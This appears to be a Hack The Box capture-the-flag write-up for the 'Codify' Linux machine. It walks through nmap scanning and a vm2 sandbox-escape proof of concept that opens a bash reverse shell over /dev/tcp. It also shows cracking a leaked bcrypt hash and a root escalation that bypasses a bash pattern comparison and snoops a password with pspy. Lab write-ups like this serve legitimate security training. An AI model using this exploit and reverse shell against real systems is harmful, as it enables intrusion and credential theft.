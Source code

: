 ```yaml
---
title: HTB Codify Writeup
date: 2023-11-24 04:15:16 +0600
categories: [Linux, Easy]
tags: [htb] 
toc: true    
---
```


# Introduction
What's up!! Red Teamers. In this post we will try to solve the linux machine **Codify**. It is rated as easy and the machine is from **Open Beta Season III**. 

# Enumeration
Starting with the nmap scan...... 

```bash
sudo nmap -sS -T4 -n -v -A 10.10.11.239 > nmap_discovered_ports
```

What do we have here??

```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http        Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3000/tcp open  http        Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codify
8080/tcp open  http-proxy?
```

The IP redirects to `http://codify.htb/`. So we need to add the IP and hostname in the hosts file. For linux, it's `/etc/hosts` and for windows, it's `c:\Windows\System32\Drivers\etc\hosts`.

Then we get ...


It says it's a simple web application that allows you to test your Node.js code easily. There is also a about page if you notice. From about page we got something interesting.


We found the library that was used to build this sandbox. It says The `vm2` library is widely used and trusted tool for sandboxing javascript. Just hold onto that, will you?

And ... last but not least, the code editor.


# Foothold 

Remember that `vm2` library?? If you do some googling, I'm sure you will bump into these resources from [Github](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) and [Snyk](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100).

Now use the POC javascript code to get a reverse shell. You can generate reverse shells in here [revshells](https://www.revshells.com/).

```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("bash -i >& /dev/tcp/IP/PORT 0>&1").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```

You'll get the shell in no time.

# Lateral Movement
Now that you're in as `www-data`, first stabilize the shell. 

```Bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z(bg)
$ stty raw -echo;fg
$ export TERM = xterm
```
As we are in as `www-data`, we should see what we have in the web server. A sqlite db file was found in `/var/www/` directory. And we found a credential of a user named 'joshua'.

```plaintext
joshua:$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

It's a bcrypt hash. We can use either `hashcat` or `john` to crack this. It won't take long whichever you use. Upon cracking the password, you can use the password to login as `joshua` via ssh.



Now you have the user flag.

# Priviledge Escalation 

Run the command `sudo -l`...


You can run `/opt/scripts/mysql-backup.sh` as root. Let's see the code here.


It takes an input password for root and compares them with `.creds` in `root` directory. Then it has mysql commands to backup databases. Kinda strange that it uses password in the command as plaintext. To get to that, we have to bypass the validation first. Do you know the comparison operations of bash?


You can read briefly [here](https://tldp.org/LDP/abs/html/comparison-ops.html).

To be exact , if double brackets are used in string comparison, you can use regex or pattern matching there. And in the script, double brackets are used. So if you put `*` as input, it will be a correct password cuz `*` matches everything including the required password.



And the script runs. But how can we see the password from those mysql commands for backing up the database? Well, we can use [pspy](https://github.com/DominicBreuker/pspy). 

It says *pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.*

So login to ssh with another terminal. Then run pspy in one terminal and the script in other as sudo. You'll see the password in no time. You may have to run the script multiple times.


Now that you have the password, let's try to login as root. Annnnd, voila, we are root. You know where is the root flag.


#### Happy Hacking :)





